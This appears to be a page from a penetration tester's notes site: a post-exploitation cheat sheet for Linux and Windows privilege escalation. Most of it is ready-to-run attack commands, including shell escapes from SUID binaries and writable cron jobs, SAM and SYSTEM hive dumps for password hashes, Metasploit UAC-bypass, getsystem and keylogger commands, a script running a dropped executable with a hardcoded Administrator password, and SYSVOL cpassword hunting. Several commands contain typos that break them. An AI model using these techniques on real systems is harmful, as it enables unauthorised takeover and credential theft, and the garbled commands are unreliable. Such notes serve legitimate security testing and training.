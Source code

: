 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

check sudo permissions | <code> sudo -l </code>
check for world writable files | <code> find / -perm -2 ! -tyle l -ls 2>/dev/null </code>
Cron Jobs | <code> cat /etc/crontab <br> #find files with week permisions</code>
Cron.d | Write a file to cron.d and wait for restart
Cron files | <code> ls /etc/cron.hourly/ <br> #can you write to any files </code>
Kernal Exploit | <code>Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection <br> Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> <br> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | [SANS](https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win)

Resources:
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [LinEnum](http://www.rebootuser.com/?p=1758)
* [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)


**setuid permissions**
 
{% highlight bash %}

vi:
:shell
:set shell=/bin/bash
:! /bin/bash

less:
(press v - launching vi) :shell

more:
?,  !bash

more,less, man:
'! /bin/sh'
'!/bin/sh'
'!bash'

tee:
echo "evil script code" | tee script.sh

awk:
awk 'BEGIN {system("/bin/sh")}'

find . -exec bash -i \;
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

perl exec ""/bin/bash"";[ctrl-d]
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

ruby exec ""bin/bash""
ruby: exec "/bin/sh"

python import os os.system('/in/bash')
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

lua: os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"

nano 
{% endhighlight %}

>**Windows**

Find SMB Version 1 | <code> Get-Item HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Find SMB Version 2/3 | <code> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Find SMB Version 2/3 | <code> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Check installed patches | wmic qfe list full /format:list 
Check Services | <code> wmic service get name,startname,pathname </code>
MSF Services | <code> use exploit/windows/local/service_permisssions </code>
Check Services | <code> for /F "tokens=2* delims= " %i in ('sc query ^| find /I "ce_name"') do @sc qc %i %j  </code>
Check Scheduled Tasks | <code> schtasks /query /fo list /v </code>
Check Startup | <code> wmic startup list full </code>
Check Permissions on Services, Tasks, and Startup |  <code> icacls executable <br> #look for something like Everyone:(CI)(F) or Users:(CI)(F) </code>
Missing Patches | <code> (New-Object -c Microsoft.Update.Session).CreateUpdateSearcher().Search("IsInstalled=0").Updates|Select Title </code>
Metasploit Get Privs | <code> use priv </code>
Metasploit Get System | <code> getsystem -n [number] or migrate [system pid] </code>
Metasploit keylogger | <code> keyscan_start, keyscan_stop, keyscan_dump </code>
Metasploit Bypass UAC | <code> use exploit/windows/local/bypassuac </code>
Hashed Passwords | <code> reg save HKLM\SAM C:\Windows\Temp\SAM </code>
Hashed Passwords | <code> reg save HKLM\SYSTEM SYSTEM </code>
SAM Locations | <code> c:\windows\repair, c:\winnt\repair </code>
Active Directory Representations | ntd.dit
Run a command as another user | <code> C:\> runas /noprofile /user:domain\username "mmc wf.msc" </code>

Run a command as another user Powershell

{% highlight bash %}
#create run.ps1
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)

#execute run.ps1
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1
{% endhighlight %}

Finding Passwords in SYSVOL 

{% highlight bash %}
net use z: \\dc01\SYSVOL
#change to z drive 
dir /s groups.xml, scheduledtasks.xml, Drives.xml, DataSources.xml, Printers.xml, Services.xml, ScheduledTasks.xml 
#Typically \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies
dir /s *.vbs
#look for password or cpassword
type [file].xml
#If cpassword is found decrypt with https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
#or gpp-decrpyt in Kali 
{% endhighlight %}

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin
https://www.slideshare.net/riyazwalikar/windows-privilege-escalation

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)


